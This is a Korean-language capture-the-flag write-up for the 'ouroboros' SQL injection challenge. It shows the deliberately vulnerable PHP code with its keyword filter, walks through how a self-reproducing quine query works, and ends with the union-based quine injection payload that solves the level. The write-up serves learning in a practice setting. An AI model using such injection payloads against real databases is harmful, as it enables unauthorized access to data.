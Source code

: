 # ouroboros

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `prob _ . rollup join @` 등을 필터링 한다.   
- GET 파라미터 `pw`를 통해 입력을 받고, 쿼리를 실행시킨다.   
- GET 파라미터 `pw`와 쿼리 실행 결과, `$result['pw']`를 비교하여 동일시 문제가 해결된다.   


## 3. Solution
보기엔 간단하지만, 상당히 난이도가 있었던 문제다.   

처음 문제를 접했을 때는 blind-sqli 문제인가? 했지만,   
자세히 보니 새로운 쿼리 없이 하나의 쿼리로 get과 결과를 비교한다.   
&rarr; `quine`과 관련있는 문제임을 직감했다.(문제이름도 ouroboros:꼬리를 삼키는 자)   

`quine`이란, 자기자신의 소스코드를 그대로 출력해 주는 프로그램이다.   
쉽게 말해, 소스코드가 `print(~~)`인 quine를 실행시키면 출력값으로 `print(~~)`가 그대로 나오는 프로그램이다.    


기존에 있는 quine query를 사용할 것인데, 그전에 해당 쿼리를 분석해봤다.    
우선, 쿼리는 다음과 같다.   
```sql
select replace(replace('select replace(replace("$",char(34),char(39)),char(36),"$")',char(34),char(39)),char(36),'select replace(replace("$",char(34),char(39)),char(36),"$")');
```

머릿속 만으로 이해하기 상당히 버겁다.   
차근차근 뜯어보며 살펴보자.   

우선, 큰 부분으로 분리시켜보면 다음과 같이 나온다.   
>    select replace(replace(</span><span style="color:blue">'select replace(replace("$",char(34),char(39)),char(36),"$")'</span>,char(34),char(39)),char(36),</span><span style="color:blue">'select replace(replace("$",char(34),char(39)),char(36),"$")'</span>);   

다시, 파란색 긴 문자열을 A로 치환하여 살펴보자.   
>    select replace(replace(</span><span style="color:blue">A</span>,char(34),char(39)),char(36),</span><span style="color:blue">A</span>);   

아스키코드 34,39,36에 해당하는 문자는 `" ' $`이다.   
우리가 치환한 문자열 A는 우리가 입력한 쿼리 그 자체의 한 부분이다.   
>    'select replace(replace("$",char(34),char(39)),char(36),"$")'   
>
>    여기에서 "는 '로, $에 동일한 문자열이 각각 들어가주면 우리가 입력한 쿼리와 완벽하게 일치하게 된다.   
    또한 해당 치환하는 과정은 replace 함수를 통해 이루어 진다.   


실제로 해당 쿼리를 실행시켜보면, 쿼리값과 동일한 결과가 나옴을 알 수 있다.   
'''sql
mysql> select replace(replace('select replace(replace("$",char(34),char(39)),char(36),"$")',char(34),char(39)),char(36),'select replace(replace("$",char(34),char(39)),char(36),"$")') as quine;
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| quine                                                                                                                                                                           |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| select replace(replace('select replace(replace("$",char(34),char(39)),char(36),"$")',char(34),char(39)),char(36),'select replace(replace("$",char(34),char(39)),char(36),"$")') |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
'''   


이제 본격적으로 해당 쿼리를 문제에 적용시켜보자.   
```sql
' union select replace(replace('" union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'" union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23
```   

코드는 다음과 같다. 본래 쿼리를 이해한다면 쉽게 바꿀 수 있는 부분이다.   

해당 쿼리를 입력하면 문제가 해결되게 된다.